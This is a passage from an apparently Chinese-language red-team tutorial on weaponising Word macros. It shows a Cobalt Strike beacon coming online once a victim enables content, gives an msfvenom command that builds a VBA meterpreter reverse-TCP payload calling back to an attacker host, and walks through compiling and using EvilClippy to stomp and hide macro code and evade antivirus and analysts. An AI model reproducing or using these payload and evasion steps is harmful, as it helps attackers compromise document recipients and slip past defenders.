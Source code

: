 另存为的Word类型务必要选”Word 97-2003 文档 (*.doc)”，即 doc 文件，保证低版本可以打开。之后关闭，再打开即可执行宏代码。

![huqeU.png](https://s3.jpg.cm/2021/03/30/huqeU.png)

默认情况下，Office已经禁用所有宏，但仍会在打开Word文档的时候发出通知。

![hunKw.png](https://s3.jpg.cm/2021/03/30/hunKw.png)
点击启用内容，CS即上线

![hu7W8.png](https://s3.jpg.cm/2021/03/30/hu7W8.png)

MSF生成宏

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.148 LPORT=4444 -f vba -o vba.txt
```

上线不稳定。

#### 2.3 宏免杀

Evil Clippy

```txt
https://github.com/outflanknl/EvilClippy/releases
```

windwos安装:

在Visual Studio开发者命令行窗口中输入下列命令：

```cmd
csc/reference:OpenMcdf.dll,System.IO.Compression.FileSystem.dll /out:EvilClippy.exe *.cs
```

运行成功，生成exe程序。

```cmd
Usage: eviloffice.exe [OPTIONS]+ filename

Author: Stan Hegt
Email: stan@outflank.nl

Options:
  -n, --name=VALUE           The target module name to stomp.
                               This argument can be repeated.
  -s, --sourcefile=VALUE     File containing substitution VBA code (fake
                               code).
  -g, --guihide              Hide code from VBA editor GUI.
      --gg, --guiunhide      Unhide code from VBA editor GUI.
  -t, --targetversion=VALUE  Target MS Office version the pcode will run on.
  -w, --webserver=VALUE      Start web server on specified port to serve
                               malicious template.
  -d, --delmetadata          Remove metadata stream (may include your name
                               etc.).
  -r, --randomnames          Set random module names, confuses some analyst
                               tools.
      --rr, --resetmodulenames
                             Undo the set random module names by making the
                               ASCII module names in the DIR stream match their
                               Unicode counter parts
  -u, --unviewableVBA        Make VBA Project unviewable/locked.
      --uu, --viewableVBA    Make VBA Project viewable/unlocked.
  -v                         Increase debug message verbosity.
  -h, --help                 Show this message and exit.
```
